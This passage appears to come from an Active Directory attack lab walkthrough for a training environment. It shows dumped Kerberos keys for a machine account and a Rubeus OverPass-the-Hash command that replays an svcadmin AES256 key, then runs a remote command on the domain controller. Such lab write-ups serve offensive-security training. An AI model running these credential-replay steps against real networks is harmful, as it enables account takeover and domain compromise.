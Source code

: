 ```powershell
Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DCORP-MGMT$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:45 AM
SID               : S-1-5-18

         * Username : dcorp-mgmt$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       b607d794f87ca117a14353da0dbb6f27bbe9fed4f1ce1b810b43fbb9a2eab192
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754
```

Now, we can use OverPass-the-Hash to replay svcadmin credentials

Run the following command from a new elevated shell on the student VM to use Rubeus.

```bash
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
winrs -r:dcorp-dc cmd /c set username
```

<figure><img src="../../.gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>
